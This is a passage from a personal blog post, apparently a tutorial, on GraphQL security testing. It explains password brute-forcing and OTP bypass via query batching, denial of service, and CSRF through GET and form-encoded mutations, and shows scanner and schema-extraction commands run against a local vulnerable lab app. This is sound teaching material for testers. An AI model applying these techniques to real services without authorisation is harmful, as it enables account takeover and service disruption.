
It's worth noting that this can also be a rate-limit bypass issue. Consider an operation that implements the user authentication process - if you batch together a thousand login queries in one request, you only need to send one request to try a thousand passwords. Naturally, this also means that any OTP mechanism handled by GraphQL can also be bypassed if protections aren't handled properly. For this reason It's imperative to disable batching for any queries related to user authentication, as rate-limiting is insufficient protection.

For DoS attacks, setting up a query cost analysis mechanism should keep any requests that are too system-intensive from going through.

## Testing for Cross-Site Request Forgery (CSRF)

Out of all the vulnerabilities we've covered thus far, GraphQL-specific CSRF is probably the least known. Talked about extensively by Tomasz Swiadesk and Andrea Brancaleoni in their article ,,[That single GraphQL issue you keep missing](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)", inQL has a great detector for this vulnerability. Despite this, it's still important to manually look at how the app you're testing handles requests, and whether it follows best practices.

By design, CSRF targets state-changing operations - these are handled by mutations in GraphQL. Similar to DoS attacks, graphql-cop will tell you whether the application will allow you to use GET and form-urlencoded POST requests, so I suggest taking a look at that tool output first.

```bash
$ python3 graphql-cop.py -t http://localhost:5013/graphql                         
[MEDIUM] GET Method Query Support - GraphQL queries allowed using the GET method
[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts non-JSON queries over POST
```

Once we know what we're working with, we can start hunting for potential juicy targets. Because almost any GraphQL endpoint can be vulnerable to CSRF, it's important to demonstrate proper impact by finding an endpoint an attacker might be interested in, such as an update-profile mutation.

### GET based CSRF

Just as the name suggests, this issue arises when the application allows the client to access queries and mutations via a GET request parameter. This makes generating a PoC trivial - a click of a button is all that's needed. Note that while the GraphQL specification allows for GET-based queries, best practice advises against this for mutations.

This also means that it's important to make the distinction between queries and mutations when developing the application - if a developer implements a state-changing operation as a **query** in a GraphQL implementation that allows GET-based queries**,** it makes a CSRF attack trivial.

### POST based CSRF

This is just like the GET based CSRF, just a slightly different flavour! Because GraphQL is JSON formatted by default, many assume that it's not CSRF-vulnerable. This is not the only format queries may take - form-urlencoded POST requests will often go through due to middleware magic. The middleware will translate the query for the server, allowing the request to go through without issue. 

# The GraphQL Tester's Toolkit
A great GraphQL tester must come prepared. While a lot of testing can be done manually, using tools to [automate the boring stuff](https://automatetheboringstuff.com/) can speed things along, allowing you to spend more time actually testing the application rather than fiddling with syntax errors.

The schema is most easily acquired via introspection. By default, this functionality is disabled in many production environments, preventing a potential attacker from enumerating the application. However, if field suggestion happens to be enabled, we can use Nikita Stupin's tool [clairvoyance](https://github.com/nikitastupin/clairvoyance) to extract the schema. Clairvoyance works by brute-forcing the schema via any wordlist you might provide it - if successful, clairvoyance will extract the schema into a tool-friendly format. Using it is very easy - simply install it via `pip` (or `pipx`, if you [wish to avoid pain](https://pypa.github.io/pipx/)), and run it like so:

```bash
$ clairvoyance http://localhost:5013/graphql -o dvga_schema.json
```

Upon first glance, the schema looks a bit like gibberish. It's in JSON format, it's dense, and it's hard to parse. [GraphQL Voyager](https://graphql-kit.com/graphql-voyager/) takes care of this, allowing us to visualize the various queries and mutations in a graph format - the way the GraphQL gods intended. I've dumped the schema from DVGA and uploaded it into GraphQL Voyager.

We can use the drop-down to look at queries or mutations specifically: 


We can also look at individual queries or mutations:

Notice that GraphQL Voyager also displays the associated mutation's objects, and the object's field. This can help with writing custom queries should the need arise.

Once we have the schema in hand, we can start testing. For starters, I always like to run graphql-cop and get any low-hanging fruit. This usually shows me which potential DoS vulnerabilities I should do further tests for, as well as low-risk misconfigurations such as GraphiQL being enabled. Note that graphql-cop doesn't test for DoS via circular fragments yet - you'll have to check for that one manually.

```bash
$ python3 graphql-cop.py -t http://localhost:5013/graphql
[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service - /graphql)
[HIGH] Array-based Query Batching - Batch queries allowed with 10+ simultaneous queries (Denial of Service - /graphql)
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query (Denial of Service - /graphql)
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field (Denial of Service - /graphql)
[LOW] Field Suggestions - Field Suggestions are Enabled (Information Leakage - /graphql)
[MEDIUM] GET Method Query Support - GraphQL queries allowed using the GET method (Possible Cross Site Request Forgery (CSRF) - /graphql)
[HIGH] Introspection - Introspection Query Enabled (Information Leakage - /graphql)
[HIGH] Introspection-based Circular Query - Circular-query using Introspection (Denial of Service - /graphql)
[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts non-JSON queries over POST (Possible Cross Site Request Forgery - /graphql)
```

We can now start pulling out our DoS scripts and our proxy of choice. For Burp Suite, getting InQL is a must. [InQL](https://github.com/doyensec/inql) is an extension with scanner and attacker functionality. When utilized correctly it can be extremely powerful.

After we've gotten the easy (though still vital!) vulnerabilities, we can start digging for hidden ones. Authorization bypasses can be found by using the application itself - but we can list potential candidates using the tool [graphql-path-enum](https://blog.deesee.xyz/graphql/security/2020/04/13/graphql-permission-testing.html). If we come across a login page that uses GraphQL, we can try to abuse it using [BatchQL](https://github.com/assetnote/batchql) or [CrackQL](https://github.com/nicholasaleks/CrackQL).

# Moving Forward

Phew! That was a lot of information - great job on getting through it all! Have a cookie. 🍪

I've written this blog as a reference to both myself and others. I've tried to make it as comprehensive as possible, however there's only so much one can cover in an article of a reasonable size. That's why I'm also going to suggest a couple of resources, some free and some paid, so you can exercise your GraphQL skills to your hearts content:
- [Damn Vulnerable GraphQL App (DVGA)](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) → if you'd like to practice testing GraphQL in a sandbox environment, this project is perfect. There's also a walkthrough section, so you can check your progress and see if you've missed anything.
- [Black Hat GraphQL by Dolev Farhi and Nick Aleks](https://nostarch.com/black-hat-graphql) → this is a very comprehensive reference for GraphQL, and one of my main resources for learning when I was starting out. Great book!
- [Portswigger's GraphQL](https://portswigger.net/web-security/graphql) → Portswigger is the go-to place for all things web security, and GraphQL is no exception! Their content and labs are fantastic.
- Various CTF challenges → for hands-on practice, TryHackMe and HackTheBox have great labs, including vulnerable GraphQL apps. Davide Cioccia's workshop challenges are also [available for free on GitHub.](https://github.com/david3107/graphql-security-labs) 

Thank you for reading this blog. I've been working on this on and off for a couple of months, so I'm glad it's finally done. If you have anything to add / want to contact me, you can find me at aquilosec@proton.me, or if you want to buy me a coffee (i don’t like coffee, so it will actually be tea), I have a Ko-Fi which you can find [here](https://ko-fi.com/aquilosec).

Take care - till next time! 

aquilosec ♿